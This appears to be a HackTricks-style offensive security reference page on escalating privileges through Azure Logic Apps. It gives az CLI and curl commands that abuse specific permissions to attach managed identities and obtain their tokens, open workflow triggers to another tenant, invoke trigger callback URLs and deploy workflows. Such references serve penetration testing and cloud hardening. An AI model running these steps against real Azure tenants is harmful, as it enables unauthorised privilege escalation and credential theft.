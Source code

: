 # Az - Logic Apps Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Logic Apps Privesc
For more information about SQL Database check:

{{#ref}}
../az-services/az-logic-apps.md
{{#endref}}

### (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`) && (`Microsoft.Logic/workflows/triggers/run/action`)

These permissions allows to create/update Azure Logic Apps workflows with specific user managed identities and use them to get access tokens from them:

```bash
az logic workflow create \
  --resource-group <resource_group_name> \
  --name <workflow_name> \
  --definition <workflow_definition_file.json> \
  --location <location>

az logic workflow update \
  --name my-new-workflow \
  --resource-group logicappgroup \
  --definition <workflow_definition_file.json>
```

And after changing it, you can run it with:

```bash
az rest \
  --method post \
  --uri "https://management.azure.com/subscriptions/{subscriptionId}/resourcegroups/{resourceGroupName}/providers/Microsoft.Logic/workflows/{logicAppName}/triggers/{triggerName}/run?api-version=2016-10-01" \
  --body '{}' \
  --headers "Content-Type=application/json"
```

### Microsoft.Logic/workflows/write

With just this permission it's possible tochange the Authorization Policy, giving for example another tenant the capability to trigger the workflow:

```bash
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<resource-group-name>/providers/Microsoft.Logic/workflows/<workflow-name>?api-version=2016-10-01" \
  --body '{
    "location": "<region>",
    "properties": {
      "definition": {
        "$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowdefinition.json#",
        "contentVersion": "1.0.0.0",
        "parameters": {
          "$connections": {
            "defaultValue": {},
            "type": "Object"
          }
        },
        "triggers": {
          "<trigger-name>": {
            "type": "Request",
            "kind": "Http"
          }
        },
        "actions": {},
        "outputs": {}
      },
      "accessControl": {
        "triggers": {
          "openAuthenticationPolicies": {
            "policies": {
              "<policy-name>": {
                "type": "AAD",
                "claims": [
                  {
                    "name": "iss",
                    "value": "<issuer-url>"
                  }
                ]
              }
            }
          }
        }
      }
    }
  }'
```

### `Microsoft.Logic/workflows/triggers/listCallbackUrl/action`
You can get the callback URL of the trigger and run it.

```bash
az rest --method POST \
  --uri "https://management.azure.com/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.Logic/workflows/<workflow_name>/triggers/<trigger_name>/listCallbackUrl?api-version=2019-05-01"
```

This will return a callback URL like `https://prod-28.centralus.logic.azure.com:443/workflows/....`. Now we can run it with:

```bash
curl --request POST \
     --url "https://prod-28.centralus.logic.azure.com:443/workflows/<workflow_id>/triggers/<trigger_name>/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2F<trigger_name>%2Frun&sv=1.0&sig=<signature>" \
     --header 'Content-Type: application/json' \
     --data '{"exampleKey": "exampleValue"}'
```

### `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

With these permissions it's possible to modify Logic App workflows and manage their identities. Specifically, you can assign or remove system-assigned and user-assigned managed identities to workflows.

```bash
az logic workflow identity remove/assign \
  --name <workflow_name> \
  --resource-group <resource_group_name> \
  --system-assigned true \
  --user-assigned "/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<identity_name>"
```

### (`Microsoft.Web/sites/read`, `Microsoft.Web/sites/basicPublishingCredentialsPolicies/read`, `Microsoft.Web/sites/write`, `Microsoft.Web/sites/config/list/action`) && (`Microsoft.Web/sites/start/action`)

With these permissionss it's possible to deploy Logic App workflows using ZIP file deployments. These permissions enable actions such as reading app details, accessing publishing credentials, writing changes, and listing app configurations. Alongside the start permissions you can update and deploy a new Logic App with the content desired

```bash
az logicapp deployment source config-zip \
  --name <logic_app_name> \
  --resource-group <resource_group_name> \
  --src <path_to_zip_file>
```


{{#include ../../../banners/hacktricks-training.md}}



